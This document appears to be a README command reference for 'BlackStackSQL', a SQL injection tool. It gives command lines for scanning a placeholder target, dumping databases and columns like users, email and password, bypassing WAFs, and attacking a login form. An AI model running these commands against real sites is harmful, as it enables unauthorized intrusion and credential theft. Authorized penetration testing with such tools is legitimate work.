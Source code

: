# BlackStackSQL Command Reference

## Basic Commands

### Scan a URL for SQL Injection

```bash
python3 main.py --url http://target.com?id=1 --scan
```

### Dump Database Structure and Data

```bash
python3 main.py --url http://target.com?id=1 --dump
```

### Dump Specific Columns

```bash
python3 main.py --url http://target.com?id=1 --dump --columns users,email,password
```

### Enable Form Crawling

```bash
python3 main.py --url http://target.com --form
```

### Enable WAF Bypass

```bash
python3 main.py --url http://target.com?id=1 --waf-bypass
```

### Use a Proxy

```bash
python3 main.py --url http://target.com?id=1 --proxy http://127.0.0.1:8080
```

### Send Custom Cookies

```bash
python3 main.py --url http://target.com?id=1 --cookie "sessionid=abc123"
```

### Add Custom Headers

```bash
python3 main.py --url http://target.com?id=1 --header "X-Custom-Header: value"
```

### Resume a Previous Session

```bash
python3 main.py --resume /path/to/session
```

### Save Results as JSON

```bash
python3 main.py --url http://target.com?id=1 --save-json
```

### Save Log as HTML

```bash
python3 main.py --url http://target.com?id=1 --html-log
```

## Advanced Usage

### Combine Multiple Options

```bash
python3 main.py --url http://target.com?id=1 --scan --dump --columns users,email,password --waf-bypass --proxy http://127.0.0.1:8080
```

### Use with POST Data

```bash
python3 main.py --url http://target.com/login.php --data "username=admin&password=1" --scan
```

### Enable Aggressive Scanning

```bash
python3 main.py --url http://target.com?id=1 --aggressive
```

### Specify Number of Threads

```bash
python3 main.py --url http://target.com?id=1 --threads 10
```

## Examples

### Basic Scan

```bash
python3 main.py --url http://target.com?id=1 --scan
```

### Full Scan with Dump and WAF Bypass

```bash
python3 main.py --url http://target.com?id=1 --scan --dump --waf-bypass
```

### Crawl Forms and Dump Specific Columns

```bash
python3 main.py --url http://target.com --form --dump --columns users,email,password
```

### Use Proxy and Save Results

```bash
python3 main.py --url http://target.com?id=1 --proxy http://127.0.0.1:8080 --save-json
```

### Resume a Session

```bash
python3 main.py --resume /path/to/session

